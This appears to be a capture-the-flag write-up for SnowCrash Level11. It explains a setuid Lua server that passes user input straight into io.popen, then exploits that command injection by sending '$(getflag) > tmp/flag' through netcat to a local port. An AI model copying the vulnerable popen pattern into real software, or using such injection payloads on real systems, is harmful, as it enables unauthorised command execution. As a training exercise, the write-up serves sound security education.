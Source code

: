 # Level11

## Research

```bash
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

Study `level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
-- bind() associates the socket with its local address [that's why server side binds, 
-- so that clients can use that address to connect to server.] connect() is used to 
-- connect to a remote [server] address, that's why is client side, connect [read as: 
-- connect to server] is used.
local server = assert(socket.bind("127.0.0.1", 5151))

-- Seems to hash a password then return hash
function hash(pass)
  -- io.popen : 
  -- open a process that you can read from (mode 'r') OR write to (mode 'w') 
  -- through standard pipes (stdin, stdout)
  -- starts program prog in a separated process and returns a file handle that you 
  -- can use to read data from this program (if mode is "r", the default) or to write 
  -- data to this program (if mode is "w"). 
  -- sha1sum is a computer program that calculates and verifies SHA-1 hashes. t print or check 
  -- SHA1 (160-bit) checksums. With no FILE, or when FILE is -, read standard input. 
  -- A checksum (or hash) is a sequence of numbers and letters used to check data for errors. If you know the checksum
  -- of an original file, you can use a checksum utility to confirm your copy is identical.
  -- To produce a checksum, you run a program that puts that file through an algorithm. Typical algorithms 
  -- used for this include MD5, SHA-1, SHA-256, and SHA-512.
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  -- read("*all") reads the whole current input file
  data = prog:read("*all")
  prog:close()
  -- takes a part of data and return it
  data = string.sub(data, 1, 40)
  return data
end

while 1 do
    local client = server:accept()
    client:send("Password: ")
    client:settimeout(60)
    -- err is error string if something went wrong (like timeout)
    -- l is the return of receive(), surely the strings the client entered aka password
    local l, err = client:receive()
  if not err then
      print("trying " .. l)
      --   sends client's attempted password to hash function
      local h = hash(l)
      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end
  client:close()
end
```

What we can understand:
- A server seems to be set up on our `localhost` on port `5151`
- It will ask for a passord
- Will sends this password in a hash function
- Will apply a sha1sum on it
- Will return the 40 first characters of it
- And will do a useless `if else` condition.

`prog = io.popen("echo "..pass.." | sha1sum", "r")` </br>
`The popen() function opens a process by creating a pipe, forking, and invoking the shell.`</br>
https://linux.die.net/man/3/popen</br>

`popen` is known for its vunerability to command injections, as it will execute code, see: 
https://www.stigviewer.com/stig/application_security_and_development/2018-12-24/finding/V-70261

So `io.popen` starts a program in a separated process and returns a file handle that you can use to read data from this program or to write data to this program.

So the program `level11.lua` will execute 
```bash
echo "..pass.." | sha1sum
```
`echo "$(command)"` will execute the command.

So we have to send `$(getflag)` as a password to the program. How to connect on port `5151` ? </br>

```bash
level11@SnowCrash:~$ curl http://localhost:5151
Password: Erf nope..
```
Fails, remembered previous level `netcat` command.

## Solution

Let's listen to our `localhost` port `5151`:
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag)
Erf nope..
```
don't return the flag, it will pipe into shasum, etc...

So let's redirect getflag to a file:
```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXX
```
